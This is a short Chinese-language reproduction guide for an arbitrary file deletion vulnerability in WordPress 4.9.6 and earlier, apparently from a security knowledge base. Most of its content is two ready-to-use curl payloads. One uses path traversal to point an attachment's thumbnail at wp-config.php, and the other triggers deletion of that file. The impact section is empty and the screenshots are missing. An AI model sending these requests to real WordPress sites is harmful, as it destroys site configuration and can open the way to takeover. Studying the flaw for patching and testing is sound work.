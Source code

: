 Wordpress \<= 4.9.6 任意文件删除漏洞
====================================

一、漏洞简介
------------

利用条件L：需要进入后台

二、漏洞影响
------------

三、复现过程
------------

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId26.png)

### 将\$ meta \[\'thumb\'\]设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId29.png)

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit.\_wpnonce在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找)

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId32.png)

#### 发送有效载荷：

    curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId34.png)

### 发动攻击

#### 在页面源码中查找 \_wpnonce

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId37.png)

#### 发送有效载荷

    curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'

![](resource/Wordpress=4.9.6任意文件删除漏洞/media/rId39.png)

#### 刷新页面

image
